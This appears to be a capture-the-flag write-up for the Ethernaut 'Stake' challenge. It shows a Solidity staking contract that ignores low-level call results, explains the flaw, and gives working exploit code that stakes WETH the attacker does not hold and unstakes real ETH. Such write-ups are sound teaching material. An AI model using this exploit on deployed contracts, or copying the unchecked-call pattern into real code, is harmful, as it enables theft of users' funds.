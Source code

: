 # Ethernaut Level 31 Stake

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Stake {

    uint256 public totalStaked;
    mapping(address => uint256) public UserStake;
    mapping(address => bool) public Stakers;
    address public WETH;

    constructor(address _weth) payable{
        totalStaked += msg.value;
        WETH = _weth;
    }

    function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
        Stakers[msg.sender] = true;
        return transfered;
    }

    function Unstake(uint256 amount) public returns (bool){
        require(UserStake[msg.sender] >= amount,"Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value : amount}("");
        return success;
    }
    function bytesToUint(bytes memory data) internal pure returns (uint256) {
        require(data.length >= 32, "Data length must be at least 32 bytes");
        uint256 result;
        assembly {
            result := mload(add(data, 0x20))
        }
        return result;
    }
}
```

We have to check all three conditions:

1. ☑️ `0 < Stake's ETH balance < totalStaked`;
2. ☑️ EOA is a staker;
3. ☑️ EOA's stake balance = 0.

There's a fundamental vulnerability in the code: every returned `bool success` from the low-level calls in functions is not properly handled. For example, this call `(bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));` is not properly handled because it does not revert if the call is not successful. Thus, even if the inner logic from the `WETH` address has reverts, our attack scripts won't break, these reverts are just some returndata from the call. 

We can take advantage of that and implement out attack logic. In function `StakeWETH(uint256 amount)`, if we look up the selector functions, we know that we first call `allowance` to check for stake's allowance and `transferFrom` to transfer to stake some `weth`. We can call `approve` to increase the amount of allowance, but we will never have actual `weth` to transfer from. However, it doesn't matter since all the states still update even though the call fails!

Also, for function `Unstake`, we can see that players can unstake Eth no matter what kind of token they have staked. Given all that, we have a plan:

1. Dummy stakes A + 2 ETH. (A = 0.001 ether);
2. EOA stakes A + 1 WETH.
3. EOA unstakes A + 1 ETH.

After all that complete, 

1. ✅ `0 < Stake's ETH balance (1 wei) < totalStaked (0.001 ether + 2 wei)`;
2. ✅ EOA is a staker;
3. ✅ EOA's stake balance = 0.

`Dummy.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Stake} from "./Stake.sol";

contract Dummy {
    Stake stake;

    constructor(address _stakeAddress) payable { 
        stake = Stake(_stakeAddress);
    }

    function stakeEth(uint256 value) external {
        stake.StakeETH{value: value}();
    } 
}
```

`Stake.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {Stake} from "../src/Stake.sol";
import {Dummy} from "../src/Dummy.sol";

contract StakeScript is Script {
    address stakeAddress = 0xXXXXXXXXXXX;
    Stake stake = Stake(stakeAddress);
    Dummy dummy;
    uint256 constant STAKE_AMOUNT = 0.001 ether;
    uint256 constant MARGIN = 1 wei;

    function run() external {
        vm.startBroadcast();
        dummy = new Dummy{value: STAKE_AMOUNT + MARGIN * 2}(stakeAddress);
        dummy.stakeEth(STAKE_AMOUNT + MARGIN * 2);

        address weth = stake.WETH();
        (bool success, ) = weth.call(abi.encodeWithSignature(
            "approve(address,uint256)", 
            stakeAddress, 
            type(uint256).max
        ));
        require(success, "Approval failed");

        stake.StakeWETH(STAKE_AMOUNT + MARGIN);
        stake.Unstake(STAKE_AMOUNT + MARGIN);
        vm.stopBroadcast();
        console.log("Stake Eth balance:", stakeAddress.balance);
        console.log("Stake totalStaked:", stake.totalStaked());
        console.log("EOA Stake:", stake.UserStake(msg.sender));
    }
}
```

